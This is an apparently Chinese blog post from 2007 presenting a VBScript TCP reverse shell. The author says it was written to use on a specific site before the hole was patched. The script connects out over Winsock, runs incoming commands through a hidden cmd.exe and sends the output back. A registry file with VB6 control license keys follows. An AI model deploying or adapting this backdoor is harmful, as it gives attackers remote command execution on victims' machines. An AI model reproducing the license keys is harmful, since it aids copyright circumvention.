 ```yaml
---
title: TCP版backshell的VBS脚本
description: From:baicker'搞一个特殊的站准备用的，没想到，等写完了，洞补上了，郁闷'by009,baicker@hotmail.com'date:071221Dimrevdatasetsock=WScript.createobject("MSWinsock.Winsock","WSEvent\_")setsc=createobject("WScript.Shell")Setfso=CreateObject("Scripting.FileSystemObject")sock.connect"127.0.0.1",1234......................................
date: 2007-12-24 12:05:47
category: 技术文章
tags: ['脚本Script', 'VBS', '源码']
post_id: 303
alias: TCP-backshell-VBS-script
ViewNums: 3917
---
```


From:baicker

'搞一个特殊的站准备用的，没想到，等写完了，洞补上了，郁闷
'by 009, baicker@hotmail.com
'date:071221

Dim revdata
set sock=WScript.createobject( "MSWinsock.Winsock" , "WSEvent\_" )
set sc=createobject( "WScript.Shell" )
Set fso =CreateObject( "Scripting.FileSystemObject" )
sock.connect "127.0.0.1" , 1234

Sub WSEvent\_Connect()
wscript.echo "Connected!"
end sub

Sub WSEvent\_DataArrival(bytes)
MyString= "blank"
sock.GetData MyString
revdata=MyString
if bytes> 0 then
if instr(revdata, "exit" )> 0 then
sock.close
sock.close
sock= nothing
bClose= true
exit sub
else
on error resume next
tempfile= "C:" & fso.GetTempName
cmd=left(revdata,len(revdata)- 1 )
call sc.Run ( "cmd.exe /c " & cmd & " > " & tempfile, 0 , True )
Set txf = fso.OpenTextFile(tempfile, 1 , false , 0 )
sock.senddata txf.readall & vbcrlf & vbcrlf
txf.close
call fso.DeleteFile(TempFile, True )
end if
sock.senddata "009>"
end if
end sub

While Not bClose
WScript.Sleep 1
Wend

---------------------------------------------------------------------------------------------------------------
调用winsock，未装VB的需要导入注册表
------------------------------------------ vb6controls.reg ----------------------------------------------------
REGEDIT
HKEY\_CLASSES\_ROOTLicenses = Licensing: Copying the keys may be a violation of established copyrights.

// Masked Edit Control 6.0 license key
HKEY\_CLASSES\_ROOTLicensesBC96F860-9928-11cf-8AFA-00AA00C00905 = mmimfflflmqmlfffrlnmofhfkgrlmmfmqkqj

// Chart Control 6.0 (OLEDB) license key
HKEY\_CLASSES\_ROOTLicenses12B142A4-BD51-11d1-8C08-0000F8754DA1 = aadhgafabafajhchnbchehfambfbbachmfmb

// Common Dialog Control 6.0 license key
HKEY\_CLASSES\_ROOTLicenses4D553650-6ABE-11cf-8ADB-00AA00C00905 = gfjmrfkfifkmkfffrlmmgmhmnlulkmfmqkqj

// ADO Data Control 6.0 (OLEDB) license key
HKEY\_CLASSES\_ROOTLicensesC4145310-469C-11d1-B182-00A0C922E820 = konhqhioohihphkouimonhqhvnwiqhhhnjti

// Common Controls-3 6.0 license key
HKEY\_CLASSES\_ROOTLicenses38911DA0-E448-11D0-84A3-00DD01104159 = mcpckchcdchjcjcclidcgcgchdqdcjhcojpd

// Windows Common Controls-2 5.0 (SP2) license key
HKEY\_CLASSES\_ROOTLicenses9E799BF1-8817-11cf-958F-0020AFC28C3B = uqpqnqkjujkjjjjqwktjrjkjtkupsjnjtoun

// Windows Common Controls license key
HKEY\_CLASSES\_ROOTLicenses57CBF9E0-6AA7-11cf-8ADB-00AA00C00905 = aahakhchghkhfhaamghhbhbhkbpgfhahlfle

// Data Bound Grid Control 5.0(SP3) license key
HKEY\_CLASSES\_ROOTLicenses556C75F1-EFBC-11CF-B9F3-00A0247033C4 = xybiedobrqsprbijaegcbislrsiucfjdhisl

// Data Bound List Controls 6.0 license key
HKEY\_CLASSES\_ROOTLicenses 96EFC40-6ABF-11cf-850C-08002B30345D = knsgigmnmngnmnigthmgpninrmumhgkgrlrk

// Internet Transfer Control 6.0 license key
HKEY\_CLASSES\_ROOTLicenses78E1BDD1-9941-11cf-9756-00AA00C00908 = yjrjvqkjlqqjnqkjvprqsjnjvkuknjpjtoun

// Multimedia Control 6.0 license key
HKEY\_CLASSES\_ROOTLicensesB1EFCCF0-6AC1-11cf-8ADB-00AA00C00905 = qqkjvqpqmqjjpqjjvpqqkqmqvkypoqjquoun

// Chart Control 6.0 license key
HKEY\_CLASSES\_ROOTLicenses7C35CA30-D112-11cf-8E72-00A0C90F26F8 = whmhmhohmhiorhkouimhihihwiwinhlosmsl

// Windows Common Controls-2 6.0 license key
HKEY\_CLASSES\_ROOTLicenses4F86BADF-9F77-11d1-B1B7-0000F8753F5D = iplpwpnippopupiivjrioppisjsjlpiiokuj

// Windows Common Controls 6.0 license key
HKEY\_CLASSES\_ROOTLicensesED4B87C4-9F76-11d1-8BF7-0000F8754DA1 = knlggnmntgggrninthpgmnngrhqhnnjnslsh

// Comm Control 6.0 license key
HKEY\_CLASSES\_ROOTLicenses4250E830-6AC2-11cf-8ADB-00AA00C00905 = kjljvjjjoquqmjjjvpqqkqmqykypoqjquoun

// DataGrid Control 6.0 (OLEDB) license key
HKEY\_CLASSES\_ROOTLicensesCDE57A55-8B86-11D0-b3C6-00A0C90AEA82 = ekpkhddkjkekpdjkqemkfkldoeoefkfdjfqe

// DataList Control 6.0 (OLEDB) license key
HKEY\_CLASSES\_ROOTLicensesA133F000-CCB0-11d0-A316-00AA00688B10 = cibbcimbpihbbbbbnhdbeidiocmcbbdbgdoc

// DBWin license key
HKEY\_CLASSES\_ROOTLicensesD015B071-D2ED-11d0-A31A-00AA00688B10 = gjdcfjpcmjicjcdcoihcechjlioiccechepd

// MSDBRPT license key
HKEY\_CLASSES\_ROOTLicenses9DF1A470-BA8E-11D0-849C-00A0C90DC8A9 = cchcqjejhcgcqcfjpdfcdjkckiqikchcojpd

// FlexGrid Control 6.0 license key
HKEY\_CLASSES\_ROOTLicenses72E67120-5959-11cf-91F6-C2863C385E30 = ibcbbbebqbdbciebmcobmbhifcmciibblgmf

// MAPI Controls 6.0 license key
HKEY\_CLASSES\_ROOTLicenses899B3E80-6AC6-11cf-8ADB-00AA00C00905 = wjsjjjlqmjpjrjjjvpqqkqmqukypoqjquoun

// MSRDO 2.0 license key
HKEY\_CLASSES\_ROOTLicensesB1692F60-23B0-11D0-8E95-00A0C90F26F8 = mjjjccncgjijrcfjpdfjfcejpdkdkcgjojpd

// RemoteData Control 6.0 license key
HKEY\_CLASSES\_ROOTLicenses43478d75-78e0-11cf-8e78-00a0d100038e = imshohohphlmnhimuinmphmmuiminhlmsmsl

// Windowless Controls 6.0 license key
HKEY\_CLASSES\_ROOTLicenses80E80EF0-DBBE-11D0-BCE2-00A0C90DCA10 = qijimitpmpnpxplpvjnikpkpqoxjmpkpoivj

// PictureClip Control 6.0 license key
HKEY\_CLASSES\_ROOTLicenses6FB38640-6AC7-11cf-8ADB-00AA00C00905 = gdjkokgdldikhdddpjkkekgknesjikdkoioh

// Rich TextBox Control 6.0 license key
HKEY\_CLASSES\_ROOTLicensesDC4D7920-6AC8-11cf-8ADB-00AA00C00905 = iokouhloohrojhhhtnooiokomiwnmohosmsl

// Sheridan Tab Control license key
HKEY\_CLASSES\_ROOTLicenses190B7910-992A-11cf-8AFA-00AA00C00905 = gclclcejjcmjdcccoikjlcecoioijjcjnhng

// SysInfo Control 6.0 license key
HKEY\_CLASSES\_ROOTLicensesE32E2733-1BC5-11d0-B8C3-00A0C90DCA10 = kmhfimlflmmfpffmsgfmhmimngtghmoflhsg

// Winsock Control 6.0 license key
HKEY\_CLASSES\_ROOTLicenses2c49f800-c2dd-11cf-9ad6-0080c7e7b78d = mlrljgrlhltlngjlthrligklpkrhllglqlrk

